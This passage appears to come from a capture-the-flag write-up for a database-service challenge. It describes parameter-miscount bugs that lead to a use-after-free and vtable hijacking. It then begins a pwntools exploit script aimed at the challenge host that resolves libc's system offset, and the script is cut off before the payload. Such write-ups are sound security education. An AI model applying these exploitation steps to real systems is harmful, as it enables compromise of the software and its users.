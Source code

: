 Now all we need to do is control the damn RIP. We spent a lot of time reversing and fuzzing the program, and finally got another crash:

```
create d0
getter d0 2 1
delete d0  <-- should be "delete d0 2" instead
```

We noticed that while setting the getter, the program has miscount the parameter number. For example while handling the `delete` command, it check if it has 2 parameters ( the command itself and db name ). But in fact it should have 3 parameters instead of 2 ( the command itself, the db name and the key ). So later when the program treat the 3rd argument ( which obviously is a NULL pointer since there is no 3rd argument ) as a string, it will crash the program. This is another vulnerability ( a logic bug ).

We found that there are many cases which the program has miscount the parameter number, and one of them is the `empty` command, which leads to UAF eventually. We use this to overwrite the vtable and hijack the control flow.

Final exploit:

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import sys
import time
import random
import struct
import decimal
host = 'challenges.fbctf.com'
port = 1337

binary = "./raddest_db"
context.binary = binary
elf = ELF(binary)
try:
  libc = ELF("./libc.so.6")
  log.success("libc load success")
  system_off = libc.symbols.system
  log.success("system_off = "+hex(system_off))
except:
  log.failure("libc not found !")

def create(name):
  r.recvuntil(">>> ")
  r.sendline("create " + name)
  pass

def store(db,t,key,value):
  r.recvuntil(">>> ")
  r.sendline("store " + db + " " + t + " " + str(key) + " " + str(value))
  pass

def get(db,key):
  r.recvuntil(">>> ")
  r.sendline("get " + db + " " + str(key))
  pass

def destroy(db):
  r.recvuntil(">>> ")
  r.sendline("destroy " + db)
def li():
  r.recvuntil(">>> ")
  r.sendline("list databases")
```